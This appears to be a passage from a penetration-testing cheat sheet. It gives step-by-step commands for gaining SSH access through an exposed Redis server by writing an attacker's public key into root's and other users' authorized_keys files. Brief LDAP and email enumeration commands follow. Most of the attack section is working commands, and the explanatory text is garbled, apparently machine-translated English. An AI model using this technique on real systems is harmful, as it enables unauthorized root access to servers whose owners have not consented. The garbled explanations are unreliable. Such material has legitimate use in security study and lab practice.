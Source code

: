 ```
1:  ssh-keygen -t rsa
2:
3:  (echo -e "\n"; cat id_rsa.pub; echo -e "\n") > auth_key
4:
5:  cat auth_key | redis-cli -h hostname -x set crackit
6:  redis-cli -h hostname
7:
8:  config set dir /root/.ssh/
9:  config get dir
10:  config set dbfilename "authorized_keys"
11:  save
12:
13:  config set dir /home/user/.ssh/
14:  save
15:
16:  config set dir /home/admin/.ssh/
17:
18:  ssh user@kevgir -p 1322 -i id_rsa
```

1 - He has given parameters in line with a 2048-bit RSA key pair is generated. We can give it a password when we log in

3 - The public key of his own and to receive the new line last line auth\_key name we are writing a new file. We will upload this file to the target machine via the Redis server.

5 and 6. data from the key input in the standard line that we say we do, and then take the memory contents auth\_key entry Redis server.

8, 9, 10, 11 in which the location of the file content to be installed in the line number, which is stated to be added to the bottom of the file. SAVE transactions made by the commands are processed on the server side to make it happen.

13 and 16 lines in the root of the same process that we have done for other users in order to gain access with the privileges they also inside the ssh folder in the main folder authorized\_keys are doing the same procedure for writing to file.

## LDAP

#### Enumeration:

```
ldapsearch -h $ip -p 389 -x -b "dc=mywebsite,dc=com"
```

## Email addresses enumeration

Find emails in google, bing, pgp etc

```
theharvester -d $ip -b google
```

Contact information for the domains they host
